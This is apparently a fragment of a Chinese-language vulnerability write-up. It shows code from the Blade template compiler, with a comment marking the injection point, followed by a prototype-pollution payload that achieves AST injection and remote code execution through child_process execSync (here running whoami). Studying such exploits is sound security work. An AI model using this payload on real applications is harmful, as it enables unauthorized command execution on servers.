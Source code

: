 ```plain
                JSON.stringify(runtime.escape(attrs[i].text)) ) + "'");
        else
            this._push("' " + i + "=" + bladeutil.quote(
                JSON.stringify(attrs[i].text) ) + "'");
    }
    //take care of code attributes here
    // 在这里注入代码！！！
    else
        varAttrs += "," + JSON.stringify(i) + ":{v:" + attrs[i].code +
            (attrs[i].escape ? ",e:1" : "") +
            (i == "class" && attrs[i].append ?
                ",a:" + JSON.stringify(attrs[i].append): "") + "}";
```

Payload 如下，这样就能实现 AST Injection+ RCE 了！

```plain
Object.prototype.someprop = {
    'name': 'somename',
    'value': 'somevalue',
    'code' : "process.mainModule.require('child_process').execSync(`whoami`)"
};
```
